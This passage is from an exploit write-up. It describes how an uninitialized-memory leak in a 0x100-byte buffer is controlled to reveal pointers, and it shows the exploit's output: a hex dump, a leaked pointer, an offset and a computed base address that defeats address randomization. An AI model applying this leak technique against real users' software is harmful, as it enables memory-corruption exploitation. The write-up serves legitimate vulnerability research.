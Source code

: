```plain
```

You might not be able to tell, but this data is uninitialized. Specifically, there are pointer values that begin with `0x7B` or `0x7C` littered in here:

- `97 27 b3 7b`
- `0a a4 bc 7b`
- `05 b9 00 7c`
- `05 b8 00 7c`

The offsets of these pointer values in the 0x100 byte buffer are not always at the same place. Some heuristics definitely go a long way here. A simple mapping of DWORD values inside the buffer over time can show that some values quickly look like pointers and some do not. After a bit of tinkering with this leak, I was able to get it controlled to leak a known pointer value with ~100% certainty.

Here's what the final output of the exploit looked like against a typical user:

```plain
[*] Intercepting ReadBytes (frag = 0)
0x0: 0x14b5041
0x4: 0x14001402
0x8: 0x0
0xc: 0x0
0x10: 0xd99e8b00
0x14: 0xffff00d3
0x18: 0xffff00ff
0x1c: 0x8ff
0x20: 0x0
0x24: 0x0
0x28: 0x18000
0x2c: 0x74000000
0x30: 0x2e747365
0x34: 0x50747874
0x38: 0x6054b
0x3c: 0x1000000
0x40: 0x36000100
0x44: 0x27000000
[...]
0xcc: 0xafdd68
0xd0: 0xa097d0c
0xd4: 0xa097d00
0xd8: 0xab780c
0xdc: 0x4
0xe0: 0xab7778
0xe4: 0x7ac9ab8d
0xe8: 0x0
0xec: 0x80
0xf0: 0xab7804
0xf4: 0xafdd68
0xf8: 0xab77d4
0xfc: 0x0
[*] leakedPointer: 0x7ac9ab8d
[*] Engine_Leak2 offset: 0x23ab8d
[*] leakedBase: 0x7aa60000
```
